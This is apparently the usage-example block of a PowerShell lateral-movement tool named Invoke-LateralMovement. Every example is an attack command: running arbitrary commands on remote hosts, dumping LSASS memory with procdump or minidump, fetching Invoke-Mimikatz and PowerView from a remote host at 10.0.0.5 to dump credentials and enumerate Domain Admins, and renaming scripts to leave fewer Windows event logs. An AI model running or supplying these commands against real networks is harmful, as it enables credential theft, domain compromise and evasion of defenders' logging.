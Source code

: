 .EXAMPLE  
Open up notepad.exe on a single host with the -CustomCommand flag  
Invoke-LateralMovement -HostName 10.0.0.2 -MMCCommand -CustomCommand "cmd.exe /c notepad.exe"

.EXAMPLE  
Perform "vssadmin list shadows" on a single host with the -CustomCommand flag and receive the results with the -Server flag  
Invoke-LateralMovement -HostName 10.0.0.2 -MMCCommand -CustomCommand "cmd.exe /c vssadmin list shadows" -Server

-----------------------------

.EXAMPLE  
Perform procdump on a single machine and pull the dump back to your local machine (Default will be on the Desktop):  
Invoke-LateralMovement -HostName 10.0.0.2 -ProcDump -UserName AdminUser -Password P@55w0rd -Domain PWC -PDir C:\temp\procdump.exe

Perform procdump on multiple machines and pull the dump back to your local machine (Default will be on the Desktop):  
Invoke-LateralMovement -HostList C:\temp\hosts.txt -ProcDump -UserName AdminUser -Password P@55w0rd -Domain PWC -PDir C:\temp\procdump.exe

-----------------------------

.EXAMPLE  
Perform a minidump on the lsass process of a single machine and pull dump back to your local machine (Default will be on the Desktop):  
Invoke-LateralMovement -HostName 10.0.0.2 -MiniDump -UserName AdminUser -Password P@55w0rd -Domain PWC

-----------------------------

.EXAMPLE  
Perform I n v o k e - M i m i k a t z -DumpCreds on a single machine and pull results over SMB:  
Invoke-LateralMovement -HostName 10.0.0.2 -InvMkatz -UserName AdminUser -Password P@55w0rd -Domain PWC -ScriptDir http://10.0.0.5/Invoke-Mimikatz.ps1
 
Perform I n v o k e - M i m i k a t z -DumpCreds on a multiple machine and pull results over SMB:  
Invoke-LateralMovement -HostList C:\temp\hosts.txt -InvMkatz -UserName AdminUser -Password P@55w0rd -Domain PWC -ScriptDir http://10.0.0.5/Invoke-Mimikatz.ps1

Perform I n v o k e - M i m i k a t z -DumpCreds on a single machine and pull results over HTTP on port 8080 with a custom script name (Less Windows event logs):  
Invoke-LateralMovement -HostName 10.0.0.2 -MassKatz -UserName AdminUser -Password P@55w0rd -Domain PWC -ScriptDir http://10.0.0.5/Invoke-Update.ps1 -CustomCommand Invoke-Update -ServerPort 8080
 
Perform I n v o k e - M i m i k a t z -DumpCreds on a multiple machine  with a custom script name (Less Windows event logs) and pull results over HTTP on port 80 into the C:\temp folder:  
Invoke-LateralMovement -HostList C:\temp\hosts.txt -MassKatz -UserName AdminUser -Password P@55w0rd -Domain PWC -ScriptDir http://10.0.0.5/Invoke-Update.ps1 -CustomCommand Invoke-Update -OutputFolder "C:\temp"

.EXAMPLE  
Perform Get-DomainGroupMember on a single machine and pull results over HTTP on port 8080 with a custom script name (Less Windows event logs):  
Invoke-LateralMovement -HostName 10.0.0.2 -ExecPS -UserName AdminUser -Password P@55w0rd -Domain PWC -ScriptDir http://10.0.0.5/PowerView.ps1 -CustomCommand "Get-DomainGroupMember 'Domain Admins'" 
 